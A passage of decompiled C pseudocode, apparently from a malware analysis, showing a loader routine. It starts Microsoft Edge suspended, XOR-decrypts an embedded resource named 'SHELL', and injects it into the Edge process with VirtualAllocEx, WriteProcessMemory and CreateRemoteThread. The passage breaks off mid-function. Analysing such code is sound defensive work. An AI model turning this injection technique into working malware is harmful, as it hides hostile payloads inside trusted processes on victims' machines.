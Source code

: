 ```c
  LODWORD(ResourceW) = CreateProcessW(
                         L"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
                         0,
                         0,
                         0,
                         0,
                         4u,
                         0,
                         0,
                         &lpStartupInfo,
                         &ProcessInformation);
  if ( (_DWORD)ResourceW )
  {
    phModule = 0;
    LODWORD(ResourceW) = GetModuleHandleExW(4u, (LPCWSTR)sub_7FFED6511000, &phModule);
    if ( (_DWORD)ResourceW )
    {
      ResourceW = FindResourceW(phModule, (LPCWSTR)0x65, L"SHELL");
      v1 = ResourceW;
      if ( ResourceW )
      {
        v2 = SizeofResource(phModule, ResourceW);
        Resource = LoadResource(phModule, v1);
        ResourceW = (HRSRC)LockResource(Resource);
        v4 = ResourceW;
        if ( ResourceW )
        {
          if ( v2 )
          {
            v5 = v2;
            ResourceW = (HRSRC)VirtualAlloc(0, v2, 0x1000u, 0x40u);
            v6 = ResourceW;
            if ( ResourceW )
            {
              sub_7FFED651D400(ResourceW, v4, v2);
              v7 = 0;
              v8 = v6;
              do
              {
                v8 = (HRSRC)((char *)v8 + 1);
                v9 = v7++ & 0xF;
                *((_BYTE *)v8 - 1) ^= aX7qp9zlma2vtej[v9];
              }
              while ( v7 < v2 );
              ResourceW = (HRSRC)VirtualAllocEx(ProcessInformation.hProcess, 0, v2, 0x3000u, 0x40u);
              v10 = (DWORD (__stdcall *)(LPVOID))ResourceW;
              if ( ResourceW )
              {
                NumberOfBytesWritten = 0;
                LODWORD(ResourceW) = WriteProcessMemory(
                                       ProcessInformation.hProcess,
                                       ResourceW,
                                       v6,
                                       v5,
                                       &NumberOfBytesWritten);
                if ( (_DWORD)ResourceW )
                {
                  ResourceW = (HRSRC)CreateRemoteThread(ProcessInformation.hProcess, 0, 0, v10, 0, 0, 0);
                  v11 = ResourceW;
                  if ( ResourceW )
                  {
```